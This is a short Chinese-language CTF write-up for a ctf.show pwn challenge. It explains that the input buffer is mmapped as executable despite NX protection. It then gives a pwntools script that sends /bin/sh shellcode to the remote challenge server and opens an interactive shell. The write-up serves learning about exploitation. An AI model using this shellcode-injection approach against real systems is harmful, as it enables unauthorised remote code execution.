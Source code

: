 # 挑战简介
有时候开启某种保护并不代表这条路不通

# 思路
开了nx保护，说明你输入的内存区域不可执行

但是，这一题，buf被mmap映射到了一个可执行区域  

也就是说，你输入的shellcode被保存在buf内，从而将此处的内存地址映射到了一个可执行的区域，你的shellcode因此便可执行了  

```
from pwn import *
from LibcSearcher import *
context.log_level = "debug"

context(os='linux', arch='i386', log_level='debug')

p = remote("pwn.challenge.ctf.show",28123)
elf = ELF('D:\edge 下载\pwn')

shellcode = asm(shellcraft.sh())

#p.recvuntil("")

payload = shellcode

p.sendline(payload)

p.interactive()

```
